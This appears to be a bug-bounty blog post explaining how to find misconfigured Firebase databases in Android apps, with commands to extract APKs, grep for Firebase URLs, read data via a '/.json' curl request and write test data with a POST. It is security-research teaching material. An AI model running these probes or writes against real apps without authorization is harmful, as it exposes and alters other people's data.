





# How I Found 2 Insecure Firebase Databases

{ .glightbox .center width="600" }

A few weeks back, I was doing some bounty hunting on Android apps when I came across **two mobile applications** vulnerable to **Firebase enumeration**.

## What is Firebase?

**Firebase** is a backend development platform by Google. Due to **insecure configurations**, it’s sometimes possible to **enumerate resources without proper authorization** and access unsafe data.

These misconfigurations are commonly found in Android apps. Although the chances of finding one might seem low, once you start actively looking, there's a decent chance you'll spot one.

---

💡 Even though I didn’t receive a bounty for this vulnerability (despite [HackerOne reports](#) rating similar issues as **severity 9–10**), both companies I reported to were major Indian brands listed on bug bounty platforms—and still didn’t even offer a **Hall of Fame** mention.  

I felt… betrayed 😅    

{ .glightbox .center width="500" }

---

## Why This Blog?

I wanted to write this post because **it was surprisingly easy to find**. Once you automate most of the process, spotting an insecure Firebase instance becomes **a piece of cake**—especially if you're checking 20–30 apps.

!!! note ""
    Choose any Android app that is listed in any bug bounty platform 
    or is open For a vulnerability discloser program and then you can
    go ahead and Perform the following steps

---

## The Process

### 1. Choose a Target App

Pick any Android app that is:

- Listed on a **bug bounty platform**, or
- Open for a **vulnerability disclosure program**

---

### 2. Get the APK File

You’ll need the APK file. You can use:

- **Genymotion Emulator**: [https://www.genymotion.com/](https://www.genymotion.com/)
- **APKPure**: [https://apkpure.net](https://apkpure.net) *(Note: APKs may be outdated)*

If you're using an emulator like Genymotion:

1. Set up the emulator.
2. Install the target APK.
3. Proceed to pull the APK file.

---

### 3. Pull the APK Using ADB

> Tool: [Android Debug Bridge (ADB)](https://developer.android.com/tools/adb)

Run the following command:

```bash
adb shell pm list packages -f | grep <APK name>
```

You’ll get the APK's full path (ignore `package:` prefix).  


{ .glightbox .center width="700" }


Now pull the APK:

```bash
adb pull <path_to_the_APK_file_till_base.apk>
```

✅ You now have the APK file.

---

### 4. Decompile the APK

Use [**Apktool**](https://ibotpeaches.github.io/Apktool/) to decompile:

```bash
apktool d base.apk
```

A new folder will be created with all the APK contents. Look inside the `/res` directory.

---

### 5. Find the Firebase URL

Search inside `strings.xml`:

```bash
cat res/values/strings.xml | grep firebase
```

You should see a Firebase URL that looks like:

```text 
https://<project-id>.firebaseio.com
```

{ .glightbox .center width="700" }

---

### 6. Check for Vulnerability

Append `/.json` to the Firebase URL:

```bash
curl -X GET https://somefirebase-database.firebaseio.com/.json
```

- If it returns **data or `null`**, it’s vulnerable ✅
- If it returns **“Permission denied”**, it’s safe ❌


{ .glightbox .center width="700" }


---

### 7. Exploit the Firebase DB

Let’s try adding data via a POST request:

```bash 
curl -X POST https://somefirebase-database.firebaseio.com/testing1.json \
-d '{"cat": "meow", "dog": "bowbow"}'
```

Now visit:

```text linenums="1"
https://somefirebase-database.firebaseio.com/testing1.json
```

You should see something like:

```json linenums="1"
{
  "cat": "meow",
  "dog": "bowbow"
}
```

{ .glightbox .center width="700" }


{ .glightbox .center width="550" }

                                    Thank me later 😆

---

## Final Thoughts

I hope this post helped you understand how to find **Insecure Firebase Enums**.

If you’re interested, check out more articles/blogs related to Firebase misconfigurations and Android app security.

Happy Hunting! 🎯

[GCP - Firebase Enum](https://cloud.hacktricks.wiki/en/pentesting-cloud/gcp-security/gcp-services/gcp-firebase-enum.html)


[Firebase Database Takover](https://danangtriatmaja.medium.com/firebase-database-takover-b7929bbb62e1)

[Exploiting Insecure Firebase Database!](https://blog.securitybreached.org/2020/02/04/exploiting-insecure-firebase-database-bugbounty/?source=post_page-----42b79e9b76f8---------------------------------------)


[X (Formerly Twitter) disclosed on HackerOne: Periscope-all Firebase](https://hackerone.com/reports/684099?source=post_page-----42b79e9b76f8---------------------------------------)

---